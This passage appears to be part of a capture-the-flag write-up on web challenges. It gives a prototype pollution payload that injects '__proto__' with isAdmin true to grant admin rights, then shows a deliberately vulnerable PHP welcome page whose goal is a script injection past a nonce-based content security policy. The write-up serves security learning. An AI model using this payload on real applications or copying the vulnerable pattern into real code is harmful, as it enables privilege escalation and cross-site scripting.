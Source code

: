 here, the user properties that we provide in the body of the request will assign to the base user to get the `picture` prosperity.

if we add `__proto__:{ "isAdmin": true}` 

now every user will have `isAdmin` property and the default is `true`

<br />

**Solution:**

```json
{
	"name":"test", 
	"__proto__":{
		"isAdmin": true
	}
}
```



<br /><br />





### #3: Welcome Page

**Goal:** Inject an alert("Wizer")

**Code:**

```
<?php
$nonce = md5(random_bytes(32));
header("Content-Security-Policy: script-src 'nonce-$nonce'");
?>
<head>
    <meta charset="UTF-8">
    <title>
        <?php echo 'Welcome ' . ($_GET['name'] ?? "") ?>
    </title>
    <script nonce="<?php echo $nonce ?>">
        window.environment = 'production';
    </script>
</head>
<body>
<script nonce="<?php echo $nonce ?>">
    if (window.environment && window.environment !== 'production') {
        let debug = new URL(location)
            .searchParams.get('debug') || '';
        const script = document.createElement('script');
        script.nonce = "<?php echo $nonce ?>";
        script.innerText = debug;
        document.body.appendChild(script);
    }
</script>
</body>
```
